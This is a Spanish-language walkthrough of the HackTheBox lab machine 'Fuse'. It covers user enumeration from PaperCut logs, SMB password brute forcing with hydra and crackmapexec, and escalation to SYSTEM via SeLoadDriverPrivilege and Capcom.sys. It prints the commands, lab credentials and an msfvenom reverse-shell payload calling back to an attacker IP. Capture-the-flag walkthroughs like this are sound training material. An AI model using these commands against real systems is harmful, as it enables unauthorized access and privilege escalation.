HackTheBox
Medium
Windows
Active Directory
SMB
SeLoadDriverPrivilege
Capcom
Fuse
Enumeracion de usuarios via PaperCut; brute force SMB; pivot via rpcclient; escalada con SeLoadDriverPrivilege y Capcom.sys.
cat4clysm
Herramientas utilizadas
nmap
cewl
hydra
crackmapexec
evil-winrm
msfvenom
Scanning
root@kali:~$
nmap -sC -sV -p135,139,389,88,464,636,445,593,80,53,3269,3268,5985,9389 -n -Pn 10.10.10.193 -oN targeted
Enumeracion Web - PaperCut
Accedemos a http://fuse.fabricorp.local (PaperCut logs). Extraemos usuarios:




pmerton, tlavel, sthompson, bhult, administratorroot@kali:~$
cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 10 | tee password.txtBrute Force SMB - Hydra / CrackMapExec
root@kali:~$
hydra -L users.txt -P password.txt -t 64 10.10.10.193 smb -V

root@kali:~$
cme smb 10.10.10.193 -u users.txt -p password.txt
user: bhult password: Fabricorp01
user: tlavel password: Fabricorp01smbpasswd + rpcclient
root@kali:~$
smbpasswd -r 10.10.10.193 -U tlavel
rpcclient 10.10.10.193 -U tlavel
password: $fab@s3Rv1ce$1root@kali:~$
hydra -L domusers.txt -p '$fab@s3Rv1ce$1' -t 13 10.10.10.193 smb -V
evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
type C:\Users\svc-print\Desktop\user.txtEscalada - SeLoadDriverPrivilege + Capcom.sys
root@kali:~$
whoami /priv
SeLoadDriverPrivilege habilitado. Usamos EoPLoadDriver + ExploitCapcom:



root@kali:~$
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.141 LPORT=4444 -f exe -o reverse.exe.\EoPLoadDriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
.\ExploitCapcom.exe
type C:\Users\Administrator\Desktop\root.txtLecciones aprendidas
- CeWL extrae palabras del sitio web para crear diccionarios relevantes de brute force.
- La contrasena de dominio con expiracion forzada puede ser cambiada via smbpasswd.
- SeLoadDriverPrivilege permite cargar drivers de kernel y escalar a SYSTEM.